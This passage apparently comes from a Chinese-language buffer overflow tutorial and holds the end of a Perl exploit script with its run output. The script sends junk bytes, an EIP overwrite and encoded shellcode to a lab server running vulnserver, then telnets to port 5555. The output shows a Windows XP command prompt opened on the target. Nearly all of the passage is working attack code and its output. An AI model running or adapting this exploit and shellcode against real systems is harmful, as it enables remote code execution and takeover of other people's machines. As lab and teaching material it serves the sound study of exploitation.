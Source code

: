 	"\x48\x56\x51\x42\x4b\x4f\x48\x50\x43\x58\x4a\x50\x4c\x4a" .
	"\x43\x34\x51\x4f\x50\x53\x4b\x4f\x4e\x36\x4b\x4f\x48\x50" .
	"\x41\x41";
	
	# initialize host and port
	my $host = shift || '192.168.10.130';
	my $port = shift || 200;
	
	my $proto = getprotobyname('tcp');
	
	# get the port address
	my $iaddr = inet_aton($host);
	my $paddr = sockaddr_in($port, $iaddr);
	
	print "[+] Setting up socket\n";
	# create the socket, connect to the port
	socket(SOCKET, PF_INET, SOCK_STREAM, $proto) or die "socket: $!";
	print "[+] Connecting to $host on port $port\n";
	connect(SOCKET, $paddr) or die "connect: $!";
	
	print "[+] Sending payload\n";
	print SOCKET $junk.$eipoverwrite.$shellcode."\n";
	
	print "[+] Payload sent\n";
	print "[+] Attempting to telnet to $host on port 5555...\n";
	system("telnet $host 5555");
	
	close SOCKET or die "close: $!";

下面是输出：

	root@kali:~# perl sploit.pl 192.168.10.130 200
	 --------------------------------------
	     Writing Buffer Overflows
	       Peter Van Eeckhoutte
	     http://www.corelan.be:8800
	 --------------------------------------
	    Exploit for vulnserver.c
	 --------------------------------------
	[+] Setting up socket
	[+] Connecting to 192.168.10.130 on port 200
	[+] Sending payload
	[+] Payload sent
	[+] Attempting to telnet to 192.168.10.130 on port 5555...
	Trying 192.168.10.130...
	Connected to 192.168.10.130.
	Escape character is '^]'.
	Microsoft Windows XP [�汾 5.1.2600]
	(C) ��Ȩ���� 1985-2001 Microsoft Corp.
	